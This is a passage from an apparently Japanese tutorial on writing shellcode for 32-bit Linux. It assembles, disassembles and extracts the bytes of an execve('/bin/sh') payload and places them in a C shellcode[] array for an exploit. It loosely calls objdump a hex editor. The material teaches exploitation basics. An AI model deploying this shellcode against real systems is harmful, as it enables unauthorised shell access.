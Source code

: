 ```
defolos@glazheim:\~$ gcc shellcode.s
```

　これでa.outという名前で、先程のコードが機械語になりました。後はこのファ
イルの中身を見れば良いわけですが、catコマンド等ではファイルの中身は文字で
あると扱われるので見ることはできません。機械語としてファイルを閲覧するに
は16進数エディタを用います。次のようにしてobjdumpと言う16進数エディタを利
用します。

```
defolos@glazheim:\~$ objdump \-d ./a.out
```

　かなりたくさん表示されたと思いますが、実際に必要なのは<main>以後90が現
れるまでの間です。ですので次のようにして<main>から30行を表示します。

```
defolos@glazheim:\~$ objdump \-d a.out|grep \<main\> \-A 30
08048354 <main>:
 8048354:       eb 16                   jmp    804836c <ONE>

08048356 <TWO>:
 8048356:       5b                      pop    %ebx
 8048357:       31 c0                   xor    %eax,%eax
 8048359:       89 43 07                mov    %eax,0x7(%ebx)
 804835c:       89 5b 08                mov    %ebx,0x8(%ebx)
 804835f:       89 43 0c                mov    %eax,0xc(%ebx)
 8048362:       b0 0b                   mov    $0xb,%al
 8048364:       8d 4b 08                lea    0x8(%ebx),%ecx
 8048367:       8d 53 0c                lea    0xc(%ebx),%edx
 804836a:       cd 80                   int    $0x80

0804836c <ONE>:
 804836c:       e8 e5 ff ff ff          call   8048356 <TWO>
 8048371:       2f                      das
 8048372:       62 69 6e                bound  %ebp,0x6e(%ecx)
 8048375:       2f                      das
 8048376:       73 68                   jae    80483e0 <__libc_csu_fini>
...
```

　真ん中の欄の16進数のところだけを抜き出します。これがバイトコードです。

```
eb 16 5b 31 c0 89 43 07 89 5b 08 89 43 0c b0 0b 8d 4b 08 8d 53 0c cd 80 e8 e5 ff ff ff 2f 62 69 6e 2f 73 68
```

　これを前回紹介したExploitのshellcode[]の部分に埋め込みます。C言語では16
進数の前には\xをつけないといけないので、次のようになります。

```cの一部
char shellcode[]\=
"\xeb\x16\x5b\x31\xc0\x89\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
```
